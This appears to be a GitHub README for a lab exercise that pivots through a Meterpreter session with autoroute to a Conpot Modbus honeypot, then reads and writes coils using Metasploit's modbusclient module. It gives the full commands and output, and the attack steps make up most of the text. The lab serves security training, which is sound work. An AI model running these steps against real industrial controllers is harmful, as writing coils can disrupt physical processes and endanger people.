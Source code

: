 # 🛠 ICS Honeypot Attack Lab: Modbus Exploitation via Conpot

This lab simulates a real-world ICS attack scenario by pivoting through a compromised Windows jump box and exploiting an industrial honeypot (Conpot) using Modbus protocol commands. The target runs on a segregated ICS subnet.

---

## 🧱 Lab Setup

### 🔐 Network Structure

```
Kali (Attacker)
   ↳ Meterpreter Session on Windows Jump Box (192.168.1.150)
       ↳ Pivot Route to ICS Subnet (10.0.0.0/24)
           ↳ Conpot Modbus Honeypot (10.0.0.200:5020)
```

### 🧪 Tools Used

| Tool              | Purpose                       |
|------------------|-------------------------------|
| Kali Linux        | Attacker box                 |
| Metasploit        | Payloads, sessions, routing |
| Conpot            | ICS Honeypot (Modbus)        |
| Python + XML      | Template analysis            |

---

## 🔍 Reconnaissance

### 🎯 Target Identified via `ps aux`
Conpot is confirmed running on the honeypot with the Modbus template:

```bash
ps aux | grep conpot
```

### 🔍 Modbus Template Location

```bash
find ~/conpot-env -name modbus.xml
```

Located at:
```
/home/username/conpot-env/lib/python3.8/site-packages/conpot/templates/default/modbus/modbus.xml
```

---

## 🔁 Pivot: Route Through Meterpreter

```bash
meterpreter > run autoroute -s 10.0.0.0/24
```

> ✅ Adds a route from the jump box to the ICS subnet via `192.168.1.150`

---

## 🧨 Exploitation with `modbusclient`

### 1. **Read Coil Values**

```bash
use auxiliary/scanner/scada/modbusclient
set RHOSTS 10.0.0.200
set RPORT 5020
set ACTION READ_COILS
run
```

> ✔ Successfully read coil address 1

---

### 2. **Write to a Coil**

```bash
set ACTION WRITE_COIL
set DATA_ADDRESS 1
set DATA 0
run
```

> ✅ Output:
```
10.0.0.200:5020 - Value 0 successfully written at coil address 1
```

---

## 📜 Sample Output

![Successful write coil](path/to/your/screenshot.png)

---

## 📖 Analysis of `modbus.xml`

Extracted coil and register addresses from the honeypot XML:

```xml
<type>COILS</type>
<starting_address>1</starting_address>
<size>128</size>
```

---

## 📌 Summary

| Phase              | Result                   |
|-------------------|--------------------------|
| Initial Access     | Meterpreter session on Jump Box |
| Pivot              | `autoroute` to ICS subnet |
| Conpot Verification| Process running with Modbus |
| Read/Write Coils   | Successful via `modbusclient` |

---

## 🔐 Ethical Notice

This lab is purely for educational and research purposes in a closed, controlled environment. No real systems were accessed.

---

## 🚀 Next Steps

- Simulate unauthorized sensor manipulation
- Add logging and alerting via Conpot
- Expand to protocols like S7, BACnet, or DNP3
